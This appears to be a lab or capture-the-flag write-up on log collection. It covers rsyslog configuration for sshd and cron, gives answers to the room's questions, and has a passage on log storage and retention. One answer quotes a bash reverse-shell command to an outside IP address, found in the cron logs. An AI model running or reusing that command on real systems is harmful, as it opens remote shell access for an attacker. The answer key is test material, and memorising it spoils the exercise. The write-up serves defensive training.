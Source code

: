 ```
5. Save and Close the Configuration File.
6. Restart rsyslog: Apply the changes by restarting rsyslog with the command: sudo systemctl restart rsyslog
7. Verify the Configuration: You can verify the configuration works by initiating an SSH connection to localhost via ssh localhost or by checking the log file after a minute or two.

![img](/assets/img/logs01.png)

```IMPORTANT```: If remote forwarding of logs is not configured, tools such as scp / rsync, among others, can be utilised for the manual collection of logs.


1. After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?

stansimon

2. What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?

10.10.10.101

3. Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?

bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"


---
Task 5 - Storage, Retention, and Deletion
---

### Log Storage
---
Logs can be stored in various locations, such as the local system that generates them, a centralised repository, or cloud-based storage.

The choice of storage location typically depends on multiple factors:

All Green Operational Server	
- Security Requirements: Ensuring that logs are stored in compliance with organisational or regulatory security protocols.
- Accessibility Needs: How quickly and by whom the logs need to be accessed can influence the choice of storage.
- Storage Capacity: The volume of logs generated may require significant storage space, influencing the choice of storage solution.
- Cost Considerations: The budget for log storage may dictate the choice between cloud-based or local solutions.
- Compliance Regulations: Specific industry regulations governing log storage can affect the choice of storage.
- Retention Policies: The required retention time and ease of retrieval can affect the decision-making process.
- Disaster Recovery Plans: Ensuring the availability of logs even in system failure may require specific storage solutions.

### Log Retention
---
It is vital to recognise that log storage is not infinite. Therefore, a reasonable balance between retaining logs for potential future needs and the storage cost is necessary. Understanding the concepts of Hot, Warm, and Cold storage can aid in this decision-making:

-```Hot Storage```: Logs from the ```past 3-6 months``` that are most accessible. Query speed should be near real-time, depending on the complexity of the query.

```